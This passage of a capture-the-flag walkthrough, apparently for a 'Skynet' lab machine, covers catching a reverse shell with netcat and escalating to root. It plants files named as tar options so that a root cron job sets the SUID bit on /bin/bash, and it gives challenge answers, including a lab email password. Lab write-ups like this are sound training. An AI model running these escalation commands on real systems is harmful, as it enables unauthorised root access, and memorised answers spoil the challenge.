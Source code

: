 <img width="722" alt="31" src="https://user-images.githubusercontent.com/28839345/165291072-08d9e470-a515-435d-878d-86b2d50029d3.png">

Step 3.
Start the netcat listener and listen to the correct port.

<img width="575" alt="32" src="https://user-images.githubusercontent.com/28839345/165291083-7657fedb-95a6-4dc7-ad22-0ae0e4f0bbfe.png">

If you follow the previous steps you will connect to the web server.

<img width="1078" alt="33" src="https://user-images.githubusercontent.com/28839345/165291088-78ebca04-36a1-4a4d-951c-f16b09afcb38.png">

In the directory '/home/milesdyson' you will find the user.txt file which contains the user flag.

<img width="325" alt="34" src="https://user-images.githubusercontent.com/28839345/165291093-e7d640ca-ff30-497c-a590-706c297c2633.png">

The run the command `cat /etc/crontab` and you will see a task that is running on '/home/milesdyson/backups/backup.sh'

<img width="932" alt="35" src="https://user-images.githubusercontent.com/28839345/165291096-2e14e006-f201-4e5b-9e15-04863c408047.png">

Go to '/home/milesdyson/backups' directory and check the content of backup.sh

<img width="638" alt="36" src="https://user-images.githubusercontent.com/28839345/165291103-998293c7-7df1-4cec-a979-d24ef90ad842.png">

<img width="466" alt="37" src="https://user-images.githubusercontent.com/28839345/165291108-3e16a61d-6f44-4f80-b5d5-6cf4776192bf.png">

Now you are going to set the suid bit on /bin/bash because you want the next time the cronjob runs to execute /bin/bash as root.Then you will automatically escalate your priviledges after running `/bin/bash -p`

Go to /var/www/html directory and run the following commands.

`printf '#!/bin/bash\nchmod +s /bin/bash' > shell.sh`

`echo "" > "--checkpoint=action=exec=sh shell.sh"`

`echo "" > "--checkpoint=1"`

Then wait until the cronjob runs in the next minuite.
Run `/bin/bash -p` and you will beome root.Check if you are root by running the command `whoami`

<img width="491" alt="38 1" src="https://user-images.githubusercontent.com/28839345/165291112-bbd48f2e-a2f7-4d28-a330-fc8fa43a8b53.png">


<img width="151" alt="38" src="https://user-images.githubusercontent.com/28839345/165291110-fcfd837e-b7cb-487f-b182-03cd5da0ea56.png">

Finally go to '/root' and print 'root.txt' to get the root flag by running `cat root.txt`

<img width="331" alt="39" src="https://user-images.githubusercontent.com/28839345/165291117-8bce1dc0-8139-4155-b1aa-ffcce9ac446e.png">


**What is Miles password for his emails?**

cyborg007haloterminator


**What is the hidden directory?**
